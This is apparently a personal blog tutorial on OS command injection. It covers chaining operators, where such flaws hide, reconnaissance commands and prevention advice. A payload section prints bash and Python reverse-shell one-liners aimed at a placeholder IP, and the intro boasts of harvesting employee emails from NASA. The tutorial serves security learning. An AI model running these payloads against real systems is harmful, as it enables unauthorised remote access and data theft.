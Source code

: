 ```yaml
---
title: "OS Command Injection Attacks"
date: 2024-11-23 01:00:00 +0800
categories: [Web Attacks]
tags: [Challenge, Tutorial, Command Injection]
image:
  path: https://i.pinimg.com/originals/6e/f8/bb/6ef8bb7858572430b509ed6f8ed0dd32.gif
---
```


## Topics We'll Cover
1. **Introduction**  
2. **What is Command Injection?**  
3. **How to Find Command Injection Vulnerabilities?**  
4. **Useful Commands**  
5. **Linux or Windows?**  
6. **Practice Makes Perfect**  
7. **How to Prevent Command Injection?**  
8. **Go Wild**

---

## Introduction
Welcome! While I initially planned to write a blog post on GraphQL, I decided to focus on **Command Injection** instead. Why? Because understanding various server-side vulnerabilities is crucial before diving into other areas.  

Lately, I’ve been busy as a red teamer, analyzing how advanced persistent threat (APT) groups compromise major corporations and government organizations. For fun, I tested some of these methods on NASA's systems don’t worry, it was within legal boundaries. Even though I managed to collect over 500 emails of active employees, phishing is strictly prohibited. By the way, I did receive that coveted recognition letter from NASA, which many share on social media for clout!  

Enough about me. Feel free to DM me on Twitter if you’re reading this; I’m always open to hearing your stories and making new friends. Now, let’s dive into **OS Command Injection** cue the *Itachi theme* on Spotify!

---

## What is Command Injection?  
Command Injection is a vulnerability that allows an attacker to execute arbitrary system commands on the target server. Whether you call it **OS Command Injection** or simply **Command Injection**, they’re the same thing.  

Think of it like this: you're playing a CTF or exploiting a poorly configured server. The first thing you’d typically do is run commands like `whoami` or `id` to figure out your current privilege level. But in real-world scenarios, this doesn’t involve gaining access through complex exploits—it's often about finding misconfigured input fields or parameters.  

That said, blindly injecting commands like `whoami` into every parameter isn’t the way to go. Instead, carefully inspect the responses and behaviors of the application, much like a predator stalking its prey.  

Here are some examples of command chaining operators you might use in your terminal:  
1. `whoami || id`  
2. `whoami | id`  
3. `whoami && id`  

Each operator works differently, but their purpose in Command Injection is to inject system commands into application fields and get responses from the server. Crafting payloads for Command Injection often requires trial and error, as well as a deep understanding of the application’s behavior.

---

## How to Find Command Injection Vulnerabilities?  
This is the part where real skill comes in. You can solve countless labs, but finding Command Injection vulnerabilities in the wild requires knowing **where** to look and **what** to test. Here’s a checklist to guide you:  

1. **File Uploads**: Look for functionality where uploaded files are renamed or processed.  
2. **Image Conversions**: Check for tools that handle image resizing or format changes.  
3. **Network Utilities**: Test features like ping, traceroute, or WHOIS lookups.  
4. **Data Import/Export**: Vulnerabilities can exist in tools for importing/exporting data.  
5. **Admin Panels**: Backup logs or data fetch utilities in admin areas are often vulnerable.  
6. **Hidden APIs**: Many modern attacks exploit poorly secured APIs. Keep an eye out for them!  

---

## Useful Commands  
### Linux Commands
- `id` - Show user information.  
- `whoami` - Display current user.  
- `uname -a` - Get system info (kernel, architecture, etc.).  
- `cat /etc/passwd` - Read the system's user list.  
- `ls -l /` - List files in the root directory.  
- `ps aux` - Show running processes.  
- `df -h` - Display disk usage.

### Windows Commands
- `whoami` - Display current user.  
- `hostname` - Show system hostname.  
- `echo %USERNAME%` - Get username.  
- `systeminfo` - Detailed system info.  
- `net user` - List user accounts.

### Cross-Platform Payloads
- Inline Execution: `uname -a`, `$(id)`, `; ls`, `| id`.  
- Reverse Shell:  
  ```bash
  bash -i >& /dev/tcp/your-ip/4444 0>&1
- Python Reverse Shell:
  python -c 'import socket,os,pty;s=socket.socket();s.connect(("your-ip",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

### Linux or Windows?

You may wonder how to determine the OS of the target server. With proper reconnaissance, tools, and sometimes application responses, you can figure this out. Target-specific commands depend on the OS—choose wisely!

### Practice Makes Perfect

Want to practice? Here are some great resources:

- [PortSwigger Labs](https://portswigger.net/web-security/all-labs)
- [PentesterLab](https://pentesterlab.com/)

For example, solving a **Blind Command Injection Lab** requires tools like Burp Suite’s Collaborator to test for out-of-band (OOB) responses. If you misconfigure your payloads or fail to account for specific fields, you might miss the vulnerability entirely. Always test thoroughly.

### How to Prevent Command Injection?

To prevent Command Injection vulnerabilities:

1. Avoid calling OS commands from user input whenever possible.
2. Use allowlists instead of blacklists for commands or parameters.
3. Validate and sanitize user inputs.
4. Implement secure coding practices and run regular security audits.

Check out this OWASP cheat sheet for more details:  
[OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)

### Go Wild!

Here are additional resources and payloads to explore:

- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)
